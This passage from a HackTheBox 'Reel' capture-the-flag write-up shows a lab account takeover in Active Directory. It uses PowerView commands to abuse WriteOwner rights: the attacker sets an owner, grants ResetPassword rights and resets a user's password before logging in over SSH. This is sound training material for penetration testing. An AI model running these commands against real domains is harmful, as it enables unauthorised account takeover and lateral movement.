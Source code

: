 ![write-owner-42](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Reel/img/write-owner-42.png)

We have `WriteOwner` access over Claire's account. If we click on the `Help` button, we get a list of different attacks we can perfrom, utiliazing this access.

I want to go for the account take over using the password reset. We can do this with the `Set-DomainUserPassword` function of `PowerView.ps1`. 

To do this we need to load `PowerView.ps1` into a powershell session and tun the following:

```powershell
### Set tom as the owner of claire’s ACL 
Set-DomainObjectOwner -identity claire -OwnerIdentity tom 

### Give tom permissions to change passwords on that ACL
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword 

### Create powershell credential and change credentials. 
### NOTE!! IN A REAL PENTEST YOU WOULD ENABLE REVERSIBLE ENCRYPTION OR MAKE USER KERBEROSTABLE OR SOMETHING ELSE AND NOT CHANGE THE PASSWORD IN A PRODUCTION ENVIRONMENT
$cred = ConvertTo-SecureString "Password123!" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

![actions-43](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Reel/img/actions-43.png)

When I tried to log in via SSH it failed. I wasn't sure what's the issue, then I thought maybe its the password I chose? Tom's password had three `!` marks. So i setup a password of `Password123!!!` and repeated the above commands, and then I was able top log in as Claire:

![claire-44](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Reel/img/claire-44.png)
